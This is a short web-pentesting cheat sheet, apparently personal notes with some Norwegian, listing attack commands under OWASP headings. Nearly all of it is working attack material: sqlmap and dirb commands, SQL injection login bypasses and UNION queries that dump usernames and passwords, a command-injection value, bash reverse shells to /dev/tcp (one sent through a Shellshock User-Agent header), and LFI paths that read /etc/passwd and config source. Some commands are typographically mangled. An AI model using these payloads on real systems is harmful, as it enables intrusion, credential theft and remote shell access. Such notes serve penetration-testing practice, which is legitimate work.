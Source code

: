 ## Web - OWASP Top 10

[https://www.owasp.org/index.php/Top\_10\_2013-Top\_10](https://www.owasp.org/index.php/Top_10_2013-Top_10)

husk å sjekke:

* `robots.txt`
* `/images`
* `hydra -C all`
* `dirb`
* web server version

### D**irbuster**

`dirb http://10.0.0.10 /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt` to detect directories in the url

**SQLMAP**

`sqlmap -u`[`http://ip/whatever/index.php`](http://ip/whatever/index.php)`--forms –-batch –-crawl=10 --cookie=ibf29bpuc0864gmfobpdsg0pu0 –-level=5 –-risk=3 –-dbs`

[`http://www.binarytides.com/sqlmap-hacking-tutorial/`](http://www.binarytides.com/sqlmap-hacking-tutorial/)

**Sql injection**

[`http://securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html`](http://securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html)

`SELECT * FROM users WHERE username='' AND password=''`

`1' or '1'='1`

`SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'`

**command injection**

`127.0.0.1; id`

**reverse shell**

`1 27.0.0.1; bash -i > & /dev/tcp/192.168.1.3/443 0 > & 1`

[`http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html`](http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html)

`-1 union select 1,2,3,4,5,6`

`-1 union select 1,@@version,3,4,5,6`

`-1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()-`

`-1 union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=CHAR(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)--`

`-1 union select 1,group_concat(username,0x3a,password),3,4,5,6 FROM dev_accounts--`

**Shellshock**

`nc -lp 1234 -vvv`

`curl -x`[`http://ip:3128`](http://ip:3128)`-H "User-Agent: () { ignored;};/bin/bash -i > & /dev/tcp/localip/1234 0 > & 1"`[`http://ip/cgi-bin/status`](http://ip/cgi-bin/status)

#### **php LFI**

[`http://10.0.0.5/index.php?page=../../../../../../../../etc/passwd`](http://10.0.0.5/index.php?page=../../../../../../../../etc/passwd)

[`http://10.0.0.5/index.php?page=php://filter/convert.base64-encode/resource=config`](http://10.0.0.5/index.php?page=php://filter/convert.base64-encode/resource=config)

